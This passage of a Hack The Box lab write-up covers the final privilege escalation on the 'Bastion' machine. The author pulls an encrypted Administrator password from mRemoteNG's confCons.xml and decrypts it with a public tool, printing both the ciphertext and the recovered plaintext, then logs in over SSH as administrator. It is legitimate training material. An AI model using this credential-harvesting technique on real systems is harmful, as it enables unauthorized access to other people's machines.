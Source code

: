Looking through the installed programs, there is something interesting here:

![Pasted image 20230728151054](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/e1cb4434-5aa8-4e42-a395-ae698ff789e0)

Not sure what it is, but it's something different. 
Researching the program reveals that it stores configuration data in the appdata directory. Navigating to that directory gives me the following files:
![Pasted image 20230728151450](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/f75e9c12-3bd6-4395-aba2-f5eb3983ac38)

Slight hay stack, but I believe confCons.xml is what I want. If not, I'll start digging on the backups. No big deal, just time consuming. 
I managed to find the following information:
```
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" 
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lW
WA10dQKiw==" Hostname="127.0.0.1" 
```
Cool. That's a hash. Looks base64 encoded... which is true, but it's encoded in other ways too. 

There is a tool online for this on github: https://github.com/haseebT/mRemoteNG-Decrypt

Using it I'm able to crack it:
```
$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
Can I ssh with this?
```
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>whoami                                                                             
bastion\administrator                                                                                                           

administrator@BASTION C:\Users\Administrator>cd Desktop                                                                         

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt                                                                                                                                                              
5xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx4
administrator@BASTION C:\Users\Administrator\Desktop>
```
Bastion is completed. 
